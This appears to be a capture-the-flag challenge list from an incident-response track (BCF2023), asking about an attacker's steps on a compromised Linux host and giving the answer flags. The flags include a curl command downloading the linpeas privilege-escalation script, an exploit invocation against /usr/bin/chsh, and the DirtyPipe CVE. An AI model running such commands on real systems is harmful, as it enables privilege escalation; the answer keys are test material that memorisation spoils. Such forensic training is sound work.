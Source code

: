 Author:[Oxf4h1m](https://fb.com/fa11m)

Flag format: `BCF2023{command}`

### Max attempts: 5
### Prerequisite: IR 08
### flag BCF2023{curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh}



# Problem Name: IR 10: Privesc 1
### Point: min 100 max 250 (dynamic)
After downloading some exploit, the attacker managed to escalate his privileges to root level. The question is, what specific command did they use to achieve this privilege escalation?

Author:[Oxf4h1m](https://fb.com/fa11m)

Flag format: `BCF2023{command}`

### Max attempts: 5
### Prerequisite: IR 09
### flag BCF2023{./50808exploit /usr/bin/chsh}


# Problem Name: IR 11: Privesc 2
### Point: min 50 max 100 (dynamic)
What is the CVE and name of this privilege escalation vulnerability?

Author:[Oxf4h1m](https://fb.com/fa11m)

Flag format: `BCF2023{CVE-x-y_TheName}`

### Max attempts: 5
### Prerequisite: IR 09
### flag BCF2023{CVE-2022-0847_DirtyPipe}



# Problem Name: IR 12: Privesc 3
### Point: min 100 max 250 (dynamic)
What was the first command of the attacker after successfully escalating his privileges to root?  (GMT+6 & 24 hour format) 

Author:[Oxf4h1m](https://fb.com/fa11m)
